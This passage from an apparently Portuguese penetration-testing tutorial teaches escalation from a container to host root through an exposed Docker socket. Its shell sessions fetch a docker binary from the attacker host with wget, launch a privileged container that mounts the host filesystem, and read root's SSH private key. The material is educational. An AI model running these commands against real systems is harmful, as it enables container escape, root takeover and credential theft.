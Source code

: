 Daqui em diante, podemos usar o `docker` para interagir com o socket e enumerar quais contêineres docker já estão em execução. Se não estiver instalado, podemos baixá-lo [aqui](https://master.dockerproject.org/linux/x86_64/docker) e carregá-lo para o contêiner Docker.

```shell-session
htb-student@container:/tmp$ wget https://<parrot-os>:443/docker -O docker
htb-student@container:/tmp$ chmod +x docker
htb-student@container:/tmp$ ls -l

-rwxr-xr-x 1 htb-student htb-student 0 Jun 30 15:27 docker


htb-student@container:~/tmp$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED       STATUS           PORTS     NAMES
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago    Up 12 minutes    443/tcp   app
<SNIP>
```

Podemos criar nosso próprio contêiner Docker que mapeia o diretório raiz do host ( `/`) para o diretório `/hostsystem` no contêiner. Com isso, teremos acesso total ao sistema host. Portanto, devemos mapear esses diretórios adequadamente e usar a `main_app` imagem Docker.

```shell-session
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
htb-student@container:~/app$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED           STATUS           PORTS     NAMES
7ae3bcc818af     main_app      "/docker-entry.s..."    12 seconds ago    Up 8 seconds     443/tcp   app
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago        Up 17 minutes    443/tcp   app
<SNIP>
```

Agora, podemos efetuar login no novo contêiner privilegiado do Docker com o ID `7ae3bcc818af`e navegar até o `/hostsystem`.

```shell-session
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash


root@7ae3bcc818af:~# cat /hostsystem/root/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
<SNIP>
```

A partir daí, podemos tentar novamente obter a chave SSH privada e efetuar login como root ou como qualquer outro usuário no sistema com uma chave SSH privada em sua pasta.

### Grupo Docker
Para obter privilégios de root por meio do Docker, o usuário com o qual estamos logados deve estar no grupo `docker`. Isso permite que ele use e controle o daemon do Docker.
